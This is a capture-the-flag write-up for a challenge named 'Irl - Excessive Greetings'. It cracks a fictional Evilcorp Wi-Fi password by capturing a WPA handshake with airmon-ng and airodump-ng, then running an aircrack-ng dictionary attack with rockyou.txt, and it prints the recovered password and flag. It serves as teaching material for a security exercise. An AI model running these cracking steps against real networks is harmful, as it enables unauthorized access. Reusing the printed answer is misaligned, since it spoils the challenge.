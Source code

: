 # Irl - Excessive Greetings

> > Irl - *points/solves*
>
> We need a way into the network of Evilcorp. We know the accesspoint is around here somewhere.
> Get us the password.
>
> Flag will be in the form "UiTHack25{*insert_password_here*}

## Writeup

Password is from the famous rainbowtable rockyou.txt

Capture the handshakes happening on the suspicious network.

This can be done with Aircrack-ng on a linux machine.

First we put our network card into monitoring mode and look for all netowrks in the area.

```sh
airmon-ng start *interface*
```

check the channel and bssid of the suspicious network.

Now we will start listening for handshakes on that specific network, and writing it all to file.
The interface will end in "mon".

```sh
airodump-ng -c *channel* --bssid *BSSID* -w *FILENAME* *INTERFACE*
```

When it detects a handshake it will be displayed in teh top right corner of the terminal output.

In another terminal windows we can get to cracking the password. As a natural first place to start we
will be using rockyou.txt as our wordlist.

```sh
aircrack-ng -w rockyou.txt -b *BSSID* FILENAME.cap
```

After some calculation this will inevitably spit out the password to the network:

```txt
ladycaty
```

and with that we have our flag

```txt
UiTHack25{ladycaty}
```

## Resources

[Cracking WPA/WPA2 with Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)